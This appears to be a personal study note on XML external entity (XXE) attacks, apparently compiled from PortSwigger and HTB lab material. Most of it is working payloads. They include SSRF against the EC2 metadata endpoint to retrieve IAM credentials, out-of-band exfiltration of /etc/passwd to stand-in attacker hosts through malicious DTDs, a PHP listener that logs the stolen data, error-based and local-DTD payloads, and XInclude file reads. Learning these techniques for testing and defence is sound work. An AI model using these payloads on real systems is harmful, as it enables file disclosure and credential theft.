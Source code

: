 [[Local_DTD_XXE]]
## XXE with SSRF
### EC2 Misconfigurations
![[Pasted image 20250319143544.png]]
Some EC2 misconfiguration will use the default IP address which can be used to retrieve metadata, may be secret ones too.

```xml
<!DOCTYPE productId [
 <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
```

## Blind XXE
### Out-Of-Band XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "idz52f38rs745a9gd5ndm3iw3n9ex4lt.oastify.com"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### XLM Parameter Entities
`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://mqg2e7lmmqioe3awv51xazm3jupldb10.oastify.com"> %xxe; ]>`

### XLM Exfiltration
#### Portswigger Payload
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;
```
 The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

#### HTB Payload 
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
```shell-session
alakin2504@htb[/htb]$ vi index.php # here we write the above PHP code
alakin2504@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

### Error-based
#### Portswigger
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;
```

#### HTB
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
```xml
<!DOCTYPE foo [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
## Exploiting blind XXE by repurposing a local DTD
For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % custom_entity ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>`

You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>`

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine.
![[Pasted image 20250319192554.png]]
Redefine means you redefine an entity declared in the existing local dtd file, for example ISOamsa of this file.
## Unavailable DOCTYPE
### XInclude Attack
![[Pasted image 20250319170739.png]]
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

